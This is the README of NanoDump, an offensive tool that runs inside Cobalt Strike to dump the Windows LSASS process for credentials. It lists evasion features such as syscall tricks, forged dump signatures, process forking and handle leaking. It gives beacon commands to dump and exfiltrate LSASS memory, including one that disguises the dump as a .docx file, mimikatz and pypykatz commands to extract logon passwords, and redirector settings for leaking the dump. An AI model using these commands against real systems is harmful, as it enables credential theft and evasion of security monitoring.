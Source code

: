 # NanoDump

A Beacon Object File that creates a minidump of the LSASS process.

![screenshot](demo.png)

### Features
- It uses syscalls (with [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)) for most operations
- Syscalls are called from an *ntdll* address to bypass some syscall detections
- You can choose to download the dump without touching disk or write it to a file
- The minidump by default has an invalid signature to avoid detection
- It reduces the size of the dump by ignoring irrelevant DLLs. The (nano)dump tends to be arround 10 MB in size
- You don't need to provide the PID of LSASS
- No calls to *dbghelp* or any other library are made, all the dump logic is implemented in nanodump
- Supports process forking to avoid the permission `PROCESS_VM_READ`
- Supports handle duplication
- Supports MalSecLogon
- You can use the .exe version to run *nanodump* outside of Cobalt Strike :smile:

## Usage

### Clone

```bash
git clone https://github.com/helpsystems/nanodump.git
```

### Compile with MinGW (optional)

```bash
make
```

### Import

Import the `NanoDump.cna` script on Cobalt Strike.


### Run

Run the `nanodump` command in the Beacon console.

```
beacon> nanodump
```

### Restore the signature
Once you downloaded the minidump, restore the invalid signature
```zsh
bash restore_signature.sh <dumpfile>
```

### get the secretz

#### mimikatz
To get the secrets simply run:
```
mimikatz # sekurlsa::minidump <dumpfile>
mimikatz # sekurlsa::logonPasswords full
```

#### pypykatz
If you prefer to stay on linux, you can use the python3 port of mimikatz called [pypykatz](https://github.com/skelsec/pypykatz).  
```sh
python3 -m pypykatz lsa minidump <dumpfie>
```

## Parameters

#### --getpid
Get PID of LSASS and leave.

#### --pid -p < PID >
Provide the PID of LSASS. If not entered, nanodump will find it dynamically.

#### --write -w < path > (required for EXE)
Where to write the dumpfile.
* **BOF**: If this parameter is not provided, the dump will be downloaded in a fileless manner.
* **EXE**: This parameter is required given that no C2 channel exists

#### --valid -v
The minidump will have a valid signature.  
If not entered, the signature will be invalid. Before analyzing the dump restore the signature of the dump, with:  
`bash restore_signature.sh <dumpfile>`  

#### --fork -f
Create a handle to LSASS with `PROCESS_CREATE_PROCESS` access and then create a 'clone' of the process. This new process will then be the target for memory dumping. While this will result in a new process creation, it removes the need to read LSASS directly.

#### --dup -d
List all the handles in the system and look for an existing handle to LSASS. If found, duplicate it and access LSASS with it. This eliminates the need to open a new handle to LSASS directly.  
*(Be aware that there is no guarantee to find such handle)*

#### --seclogon -sl
Leak a handle to LSASS by abusing SecLogon with `CreateProcessWithLogonW`. This eliminates the need to open a new handle to LSASS directly.  
**If used as BOF, an unsigned binary will be written to disk unless --dup is also provided!**

#### --binary -v < path >
Path to a binary such as `C:\Windows\notepad.exe`.  
This option is used exclusively with `--seclogon` and `--dup`. If used, nanodump will create that process and use MalSecLogon to leak an LSASS handle in it. Then, it will duplicate that handle and use it to access LSASS.  
The created process is then terminated automatically.


## Examples

Read LSASS indirectly by creating a fork and write the dump to disk with an invalid signature:
```
beacon> nanodump --fork --write C:\lsass.dmp
```

Use MalSecLogon to leak an LSASS handle in a notepad process, duplicate that handle to get access to LSASS, then read it indirectly by creating a fork and download the dump  with a valid signature:
```
beacon> nanodump --seclogon --dup --fork --binary C:\Windows\notepad.exe --valid
```

Get a handle with MalSecLogon, read LSASS indirectly by using a fork and download the dump with a valid signature:
```
beacon> nanodump --seclogon --fork --valid
```

Download the dump with an invalid signature (default):
```
beacon> nanodump
```

Duplicate an existing handle and write the dump to disk with an invalid signature:
```
beacon> nanodump --dup --write C:\Windows\Temp\report.docx
```

Get the PID of LSASS:
```
beacon> nanodump --getpid
```

## HTTPS redirectors
If you are using an HTTPS redirector (as you should), you might run into issues due to the size of the requests that leak the dump.  
Increase the max size of requests on your web server to allow nanodump to download the dump.

#### NGINX
```
location ~ ^...$ {
    ...
    client_max_body_size 50M;
}
```
#### Apache2
```
<Directory "...">
    LimitRequestBody  52428800
</Directory>
```

## Credits
- [skelsec](https://twitter.com/skelsec) for writing [minidump](https://github.com/skelsec/minidump), which was crucial for learning the minidump file format.
- [freefirex](https://twitter.com/freefirex2) from [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF) at Trustedsec for many cool tricks for BOFs
- [Jackson_T](https://twitter.com/Jackson_T) for [SysWhispers2](https://github.com/jthuraisamy/SysWhispers2)
- [BillDemirkapi](https://twitter.com/BillDemirkapi) for [Process Forking](https://billdemirkapi.me/abusing-windows-implementation-of-fork-for-stealthy-memory-operations/)
- [Antonio Cocomazzi](https://twitter.com/splinter_code) for [MalSecLogon](https://splintercod3.blogspot.com/p/the-hidden-side-of-seclogon-part-2.html)
